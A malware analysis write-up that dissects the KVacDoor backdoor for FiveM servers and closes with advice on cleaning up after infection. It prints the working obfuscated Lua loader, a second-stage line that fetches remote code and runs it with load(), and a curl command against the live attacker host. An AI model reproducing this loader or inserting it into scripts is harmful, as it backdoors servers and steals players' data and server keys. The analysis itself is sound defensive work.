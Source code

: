 As an introduction, KVacDoor is a really used fivem and garry's mod server manager, boasting features such as 

> **Lua Script**
The scripting system allows you or the KVacDoor staff to quickly run lua code on your servers.

> **Smart Lua**
Inject your lua codes discreetly in one click in one of your addons with the Smart Lua tool.

Turns out that it's also a backdoor, which uses this code, injected into the server-side of a fivem-script to plant itself inside the server.
It is strongly recommended you read cipher's panel breakdown as the code and method used are almost identical - https://github.com/ericstolly/cipher/blob/main/chapters/chapter-1-payload.md
```
local Enchanced_Tabs = {
    Ench, Support, Host, Pairs,
    Realease, Callbacks, Source,
    Hosting, Event, PerformHttpRequest,
    assert, server, load, Spawn, materials
}

local random_char = {
    "68", "74", "74", "70", "73", "3a", "2f", "2f", "66", "69", "76", "65", "6d", "2e", "6b", "76",
    "61", "63", "2e", "63", "7a", "2f", "66", "2e", "70", "68", "70", "3f", "6b", "65", "79", "3d",
    "6f", "6a", "6f", "54", "4a", "5a", "57", "65", "50", "52", "6e", "50", "4b", "59", "55", "70", "41", "36", "7a", "34",
}

function str_utf8()
    _empt = ""
    for id,it in pairs(random_char) do
        _empt = _empt..it
    end
    return (_empt:gsub("..", function (cc)
        return string.char(tonumber(cc, 16))
        
    end))
end

Enchanced_Tabs[10](str_utf8(), function (e, d)
    local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
    if (d == nil) then return end
    s()
end)
```
If that looks familiar, that's because it's the same code (with the link changed of course) used by the cipher panel backdoor - 
I'd recommend reading it before continuing one, though I will explain briefly how the code works
In-short the `random_char` table is a link, which gets interpreted by `str_utf8()` which runs as an http request on the server, giving access to it.
Running the code without the last codeblock (which if you look at the `Enchanced_Tabs` table is an http request) in any lua compiler (https://onecompiler.com/lua/42d7ex7dx)
and appending `print(str_utf8)` to it, so we can see what the encoded message is, gives us this link - https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4.

If we cURL the link using the "FXServer/PerformHttpRequest" user-agent, we'd get this:
```
PerformHttpRequest("https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b", function(a, b) if b == nil or b == "" then return end assert(load(b))() end, "POST")
```

You can verify on linux using this command:
`curl https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4 -A "FXServer/PerformHttpRequest"`

As we can see we get more lua code, if we extract the link
`https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b`
and translate it to text:
`https://fivem.kvac.cz/_/api.php?key=3Rj4lZeyvWJna3PizqOk`

cURL-ing this link grants us the payload code:

minimized-payload.lua

beautifying it a bit we get this

payload.lua

The scripts seem to grab all relevant info like licenses, IPs, identifiers from the players in your server, and also stealing API keys from the server .cfg
It also overrides the `chatMessage` event
It grants the resource the payload was ran from permissions in the server.cfg - and therefore txAdmin


```Post-Infection Measures```
It is highly recommended to shutdown the server as soon as the backdoor is installed, as by default it doesn't inject itself outside the OS and only in the former 3 locations.
Then reseting any API keys you have put in your server.cfg (like steam, rcon passwords)
Then reinstalling your chat script, deleting the malicious code from your resource and remove the command access granted in the last lines of the server.cfg.
